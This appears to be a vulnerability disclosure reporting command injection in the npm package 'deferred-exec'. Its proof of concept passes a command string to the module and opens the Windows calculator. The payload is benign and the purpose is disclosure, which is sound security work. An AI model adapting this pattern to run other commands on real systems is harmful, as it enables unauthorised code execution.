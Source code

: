 # Description

Command Injection in deferred-exec

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a = require("deferred-exec");
a(" calc.exe ",{});
```

2. Execute the following commands in terminal:

```
npm i deferred-exec # Install affected module
node poc.js #  Run the PoC
```

3. On execution, windows application "calc.exe" will get open.
